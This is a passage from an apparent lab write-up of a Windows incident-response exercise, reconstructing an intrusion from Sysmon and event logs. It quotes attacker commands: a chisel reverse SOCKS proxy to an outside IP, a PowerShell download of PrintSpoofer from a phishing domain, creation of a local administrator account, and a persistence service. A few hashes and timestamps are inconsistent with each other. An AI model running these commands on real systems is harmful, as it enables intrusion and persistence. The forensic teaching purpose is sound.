  TCP    192.168.254.107:51839  34.104.35.123:80       TIME_WAIT       0
  TCP    192.168.254.107:51858  104.101.22.128:80      TIME_WAIT       0
  TCP    192.168.254.107:51860  20.205.146.149:443     TIME_WAIT       0
  TCP    192.168.254.107:51861  204.79.197.200:443     ESTABLISHED     4352
  TCP    192.168.254.107:51871  20.190.144.169:443     TIME_WAIT       0
  TCP    192.168.254.107:51876  52.178.17.2:443        ESTABLISHED     4388
  TCP    192.168.254.107:51878  20.60.178.36:443       ESTABLISHED     4388
  TCP    192.168.254.107:51881  52.109.124.115:443     ESTABLISHED     4388
  TCP    192.168.254.107:51882  52.139.154.55:443      ESTABLISHED     4388
  TCP    192.168.254.107:51884  40.119.211.203:443     ESTABLISHED     4388
  TCP    192.168.254.107:51895  52.152.90.172:443      ESTABLISHED     5508
  TCP    192.168.254.107:51896  20.44.229.112:443      ESTABLISHED     8904
```

We can research these port more easily by narrowing this list down to listening ports that fit the expected answer length.

```
  TCP    0.0.0.0:5040           0.0.0.0:0              LISTENING       5508
  TCP    0.0.0.0:5357           0.0.0.0:0              LISTENING       4
  TCP    0.0.0.0:5985           0.0.0.0:0              LISTENING       4
  TCP    0.0.0.0:7680           0.0.0.0:0              LISTENING       4964
```

I found 5040 is related to Windows Mail, 5357 for web services for devices like printers, 7680 for Windows updates. The one that could be used for a remote shell is **5985**, used for WinRM (Windows Remote Management).

---

**The attacker then established a reverse socks proxy to access the internal services hosted inside the machine. What is the command executed by the attacker to establish the connection?**
_Format: Remove the double quotes from the log._

This event can be found by searching "socks" in Timeline Explorer. From the Executable Info column, we can see the command executed is:

`"C:\Users\benimaru\Downloads\ch.exe" client 167.71.199.191:8080 R: socks`

- 2022-06-20 17:18:48
- Event ID 1 (Process creation)

```
{"@Name":"UtcTime", "#text":"2022-06-20 17:18:48.723"},
{"@Name":"Image", "#text":"C:\Users\benimaru\Downloads\ch.exe"}, {"@Name":"CommandLine", "#text":""C:\Users\benimaru\Downloads\ch.exe" client 167.71.199.191:8080 R: socks"},
{"@Name":"User", "#text": "TEMPEST\benimaru"},
{"@Name":"Hashes", "#text": "MD5-527C71C523D275C8367B67BBEBF48E9F, SHA256-8A99353662CCAE117D2BB22EFD8C43D7169060450BE413AF763E8AD752202451, IMPHASH-C7269059926FA4252270F407E4DAB043"},
{"@Name": "ParentProcessId", "#text": "8948"},
{"@Name": "ParentImage", "#text": "C:\Users\Public\Downloads\first.exe"},{"@Name": "ParentCommandLine", #text":""C:\Users\Public\Downloads\first.exe\""}, 
{"@Name":"ParentUser", "#text": "TEMPEST\benimaru"}
```

---

**What is the SHA256 hash of the binary used by the attacker to establish the reverse socks proxy connection?**

This is found in the hashes field of the above event where the Image is "ch.exe".

`8A99353662CCAE117D2BB22EFD8C43D7169060450BE413AF763E8AD7522D2451`

---

**What is the name of the tool used by the attacker based on the SHA256 hash? Provide the answer in lowercase.**

My searching the hash on VirusTotal, I found the name of this malicious tool is 'chisel'.

[VirusTotal - chisel.exe](https://www.virustotal.com/gui/file/8a99353662ccae117d2bb22efd8c43d7169060450be413af763e8ad7522d2451)

---

**The attacker then used the harvested credentials from the machine. Based on the succeeding process after the execution of the socks proxy, what service did the attacker use to authenticate?**
_Format: Answer in lowercase_

By looking at the events following the establishment of the reverse socks proxy and narrowing down events to `usename == TEMPEST\benimaru`, you can see a Process creation event that shortly follows using wsmprovhost.exe, which we can see in the Description field is **WinRM**, which we learned earlier is for remote Windows management.

- 2022-06-20 17:19:06
- Event ID 1 (Process creation)

```
{"@Name":"UtcTime", "#text": "2022-06-20 17:19:06.492"},
{"@Name":"ProcessId", "#text":"4208"},
{"@Name":"Image", "#text":"C:\Windows\System32\wsmprovhost.exe"}, 
{"@Name":"FileVersion", "#text":"10.0.17763.1 (WinBuild.160101.0800)"}, 
{"Name":"Description", "#text": "Host process for WinRM plug-ins"}, 
{"@Name":"Product", "#text": "Microsoft® Windows® Operating System"}, 
{"@Name":"Company", "#text": "Microsoft Corporation"}, 
{"@Name":"OriginalFileName", "#text": "wsmprovhost.exe"}, 
{"@Name":"CommandLine", "#text":"C:\Windows\system32\wsmprovhost.exe -Embedding"}, 
{"@Name":"User", "#text": "TEMPEST\benimaru"}, 
{"@Name":"Hashes", "#text":"MD5-AB4AB98654635CABADB5F1A60BDA1C05, SHA256-5FCCFF57D379CDC4CF6196FEF554CEF753B4C76DC315F371F90AEBF0786A18C3, IMPHASH-566283D9BC4787CDF98CCF90FD58FC2E"}, 
{"@Name":"ParentProcessId", "#text": "752"}
```

## Privilege Escalation - Exploiting Privileges

**After discovering the privileges of the current user, the attacker then downloaded another binary to be used for privilege escalation. What is the name and the SHA256 hash of the binary?**
_Format: binary name,SHA256 hash_

Shortly after WinRM was used there are commands to check current privilges, using `whoami /priv` and following this  there is a web request for a file called "spf.exe". Shown in the Executable Info column is:

`"C:\Windows\System32\WindowsPowerShell\v1.0\powershell.exe" iwr http://phishteam.xyz/02dcf07/spf.exe -outfile spf.exe`

This is not the event we want to get the SHA256 hash from however, as the Image is powershell.exe. Following this event we see a process creation event with Image: "spf.exe", which will contain the hashes for this binary.

- 2022-06-20 17:21:34
- Event ID 1 (Process creation)

```
{"@Name":"UtcTime","#text":"2022-06-20 17:21:34.192"},
{"@Name":"ProcessId","#text":"6828"},
{"@Name":"Image","#text":"C:\Users\benimaru\Downloads\spf.exe"},
{"@Name":"CommandLine","#text":""C:\Users\benimaru\Downloads\spf.exe" -c C:\ProgramData\final.exe"},
{"@Name":"CurrentDirectory","#text":"C:\Users\benimaru\Downloads\"},
{"@Name":"User","#text":"TEMPEST\benimaru"},
{"@Name":"Hashes","#text":"MD5=108DA75DE148145B8F056EC0827F1665,SHA256=8524FBC0D73E711E69D60C64F1F1B7BEF35C986705880643DD4D5E17779E586D,IMPHASH=545A81240793F9CA97306FA5B3AD76DF"},
{"@Name":"ParentProcessId","#text":"4208"}
```

---

**Based on the SHA256 hash of the binary, what is the name of the tool used?**
_Format: Answer in lowercase_

Searching the SHA256 hash in VirusTotal shows the name as "printspoofer".

[VirusTotal - PrintSpoofer64.exe](https://www.virustotal.com/gui/file/8524fbc0d73e711e69d60c64f1f1b7bef35c986705880643dd4d5e17779e586d)

---

**The tool exploits a specific privilege owned by the user. What is the name of the privilege?**

I found a blog discussing PrintSpoofer, which mentions that the primary privilege abused is "SeImpersonatePrivilege".

[PrintSpoofer: How Attackers Hijack Privileges in Windows Networks](https://medium.com/@laurent.mandine/%EF%B8%8F-printspoofer-how-attackers-hijack-privileges-in-windows-networks-f188ff491e31)

---

**Then, the attacker executed the tool with another binary to establish a c2 connection. What is the name of the binary?**

The command line field of the the event shown previously shows "final.exe" is the other binary used in establishing the c2 connection.

```
{"@Name":"CommandLine","#text":""C:\Users\benimaru\Downloads\spf.exe" -c C:\ProgramData\final.exe"},
```

---

**The binary connects to a different port from the first c2 connection. What is the port used?**

By searching "final.exe" in Timeline Explorer and filtering on `Event Id = 3`, we can see the c2 traffic that follows. Below is one of many network connection events, which shows in the DestinationPort field that port **8080** is used.

- 2022-06-20 17:21:35
- Event ID 3 (Network connection)

```
{"@Name":"UtcTime","#text":"2022-06-20 17:07:33.016"},
{"@Name":"ProcessId","#text":"8264"},
{"@Name":"Image","#text":"C:\\ProgramData\\final.exe"},
{"@Name":"User","#text":"NT AUTHORITY\\SYSTEM"},
{"@Name":"Protocol","#text":"tcp"},
{"@Name":"Initiated","#text":"True"},
{"@Name":"SourceIp","#text":"192.168.254.107"},
{"@Name":"SourceHostname","#text":"TEMPEST"},
{"@Name":"SourcePort","#text":"52015"},
{"@Name":"DestinationIp","#text":"167.71.222.162"},
{"@Name":"DestinationPort","#text":"8080"}
```

## Actions on Objective - Fully-owned Machine

**Upon achieving SYSTEM access, the attacker then created two users. What are the account names?**
_Format: Answer in alphabetical order - comma delimited_

By searching "add" in Timeline Explorer, towards the end of these results are a groups of events related to adding new users. The screenshot below shows the two new account names are **shion** and **shuna**.



---

**Prior to the successful creation of the accounts, the attacker executed commands that failed in the creation attempt. What is the missing option that made the attempt fail?**

By clearing the search for the work "add" and scrolling up to view preceding events, I found attempts to add the user shion, but these were missing the "/add" option.



---

**Based on windows event logs, the accounts were successfully created. What is the event ID that indicates the account creation activity?**

If not already done, we will now need to convert the "windows.evtx" log to a `.csv` using the below command:

PS C:\Tools\EvtxECmd> `.\EvtxECmd.exe -f 'C:\Users\user\Desktop\Incident Files\windows.evtx' --csv 'C:\Users\user\Desktop\Incident Files' --csv windows.csv`

From the sysmon logs, we know the new users were added at 17:27:19 and 17:27:28. Looking at the Windows logs in Timeline Viewer for these timestamps, we can the Map Description: "A new account was created", corresponding to Event ID **4720**.

---

**The attacker added one of the accounts in the local administrator's group. What is the command used by the attacker?**

Referring to the screenshot shown in question 1 of this section, we see the command below that added shion to the administrator's group:

`net localgroup administrators /add shion`

---

**Based on windows event logs, the account was successfully added to a sensitive group. What is the event ID that indicates the addition to a sensitive local group?**

Given the time of this event in sysmon, 17:27:41, we can look at this timestanp in the windows log and see the Map Description: "A member was added to a security-enabled local group", which is classified as Event ID **4732**.

---

**After the account creation, the attacker executed a technique to establish persistent administrative access. What is the command executed by the attacker to achieve this?**
_Format: Remove the double quotes from the log._

I found this event while searching the "final.exe" binary found earlier. The `start= auto` part of the Executable Info column standing out as a persistence technique. The full command and event is shown below:

`C:\Windows\system32\sc.exe \\TEMPEST create TempestUpdate2 binpath= C:\ProgramData\final.exe start= auto`

- 2022-06-20 17:26:29
- Event ID 1 (Process creation)

```
{"@Name":"UtcTime","#text":"2022-06-20 17:26:29.904"},
{"@Name":"ProcessId","#text":"804"},{"@Name":"Image","#text":"C:\\Windows\\System32\\sc.exe"},
{"@Name":"CommandLine","#text":"\"C:\\Windows\\system32\\sc.exe\" \\\\TEMPEST create TempestUpdate2 binpath= C:\\ProgramData\\final.exe start= auto"},
{"@Name":"ParentProcessId","#text":"8264"},
{"@Name":"ParentImage","#text":"C:\\ProgramData\\final.exe"}
```